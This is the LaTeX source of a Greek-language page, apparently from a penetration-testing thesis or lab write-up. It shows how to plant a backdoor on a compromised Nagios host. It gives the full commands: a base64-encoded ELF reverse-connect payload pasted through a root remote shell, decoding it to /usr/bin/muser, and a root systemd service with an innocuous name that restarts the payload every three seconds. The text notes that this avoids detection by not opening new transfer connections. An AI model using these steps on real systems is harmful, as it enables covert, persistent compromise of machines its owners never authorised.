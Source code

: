 \documentclass[12pt]{report}
\begin{document}
Το επόμενο βήμα είναι το ανέβασμα του \textlatin{payload} στο μηχάνημα στόχο. Επειδή δεν θέλουμε να δημιουργήσουμε υποψίες με νέες συνδέσεις, δε θα χρησιμοποιήσουμε \textlatin{netcat, ftp, wget, curl} ή κάποιο άλλο τρόπο μετάδοσης αρχείων. Αντίθετα θα βασιστούμε στο μικρό μέγεθος του \textlatin{payload} και στο \textlatin{remote shell}, που έχουμε ήδη. Θα κωδικοποιησουμε το \textlatin{binary payload} σε \textlatin{base64} και θα κάνουμε αντιγραφή και επικόλληση τους \textlatin{ASCII} χαρακτήρες που προκύπτουν, μέσω του \textlatin{remote shell} σε νέο αρχείο. Στη συνέχεια αποκωδικωποιούμε το αρχείο αυτό και έχουμε το αρχικό \textlatin{binary payload} έτοιμο στην απέναντι πλευρά...
\begin{scriptsize}
\begin{verbatim}
root@kali# base64 muser
\end{verbatim}
\end{scriptsize}
Κάνουμε τώρα αντιγραφή τους χαρακτήρες από το \textlatin{stdout} και επικόλληση τους εντός εισαγωγικών σε μια εντολή \textlatin{echo} στο \textlatin{remote shell}.
\begin{scriptsize}
\begin{verbatim}
nagiosrootsh-4.3# echo "f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAA
AAAAAIAECACABAgHAQAAugEAAAcAAAAAEAAA28rZdCT0WjPJsSe9OTlI1TFqF4Pq/ANTKqogeZbz
v1nTvoi+LG5X65shSNpMWgrzj1lb142caebWxBOrESvlvNSkNtyf+h+oi4yotVJPtXJXc27I12Fm
Mydi3x3TkNGdeCeK60OXfQRjbXTpkNjDWqcRaSVDXZ6Rwyoa8tW5haSFGHh13BNYxnbRPsIl9enX
E2h9gaWQTAxWZvSBMeCXbTqVWJNeQMfvqC7dCdhMoJAQrXQ=" > muser64

nagiosrootsh-4.3# base64 -d muser64 > muser && rm muser64
\end{verbatim}
\end{scriptsize}
Με τη \textlatin{backdoor} στο μηχάνημα στόχο, μας μένει μόνο να δημιουργήσουμε το \textlatin{service} και να μετακινήσουμε το εκτελέσιμο σε θέση που δεν εγείρει υποψίες.
\begin{scriptsize}
\begin{verbatim}
nagiosrootsh-4.3# cp muser /usr/bin/muser

nagiosrootsh-4.3# cat > /etc/systemd/system/multiple-user.service << EOF
[Unit]
Description=System Multiuser Configuration

[Service]
ExecStart=/usr/bin/muser
User=root
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
EOF

nagiosrootsh-4.3# systemctl enable multiple-user
\end{verbatim}
\end{scriptsize}
Το \textlatin{service} δημιουργείται με τρόπο ώστε να γίνεται αυτόματη επανεκκίνησή του εφόσον δεν είναι ενεργό. Επίσης προσπαθεί να συνδεθεί, σε περίπτωση αποτυχίας, ανά 3 δευτερόλεπτα. Αυτό γίνεται γιατί το \textlatin{payload} είναι φτιαγμένο ώστε να κάνει \textlatin{segfault} όταν δε μπορεί να συνδεθεί με το απομακρυσμένο μηχάνημα. Έτσι σε κάθε αποτυχία σύνδεσης επαννεκινεί το \textlatin{service}.
\end{document}
